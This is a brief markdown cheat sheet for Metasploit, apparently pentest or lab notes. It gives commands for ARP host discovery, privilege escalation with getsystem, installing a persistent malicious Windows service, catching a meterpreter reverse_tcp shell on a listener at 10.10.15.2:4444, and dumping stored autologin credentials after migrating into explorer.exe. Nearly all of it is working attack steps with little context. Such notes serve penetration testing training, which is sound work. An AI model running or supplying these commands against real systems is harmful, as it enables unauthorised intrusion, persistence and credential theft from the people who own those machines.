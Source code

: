 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
```

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



#### Killing Active Sessions
```
sessions -K
```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
```
>Note : Use same LHOST and LPORT as used previously.

#### Dumping Autologin information
> To extract AutoLogin stored credentials from the target machine we need to migrate current process to explorer.exe sothat we have full control to users environment.
```
migrate -N explorer.exe

background
use post/windows/gather/credentials/windows_autologin
set SESSION 3
exploit
```
